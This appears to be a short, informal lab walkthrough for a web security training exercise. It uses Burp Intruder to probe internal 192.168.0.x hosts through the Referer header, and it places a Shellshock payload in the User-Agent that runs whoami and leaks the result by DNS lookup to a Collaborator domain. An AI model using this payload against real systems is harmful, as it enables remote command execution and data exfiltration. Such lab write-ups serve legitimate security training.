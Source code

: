 # anylize
in request in burp when you click to any product and send to intruder
```
GET /product?productId=1 HTTP/2
Host: 0a42007b03bb73ef846505820016006b.web-security-academy.net
Cookie: session=QlkTZEaMIOsRYO9GPlUzxFcvkYW8DvPl
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).{DOMAIN}
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://192.168.0.§1§:8080
Accept-Encoding: gzip, deflate, br
Accept-Language: id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7
Priority: u=0, i
```
in user agent
change this
```
() { :; }; /usr/bin/nslookup $(whoami).YOURDOMAINBURPCOLABOLATOR
```

# For asnwer
click poll in burp colabolator you will see the host

# img
![alt text](image.png)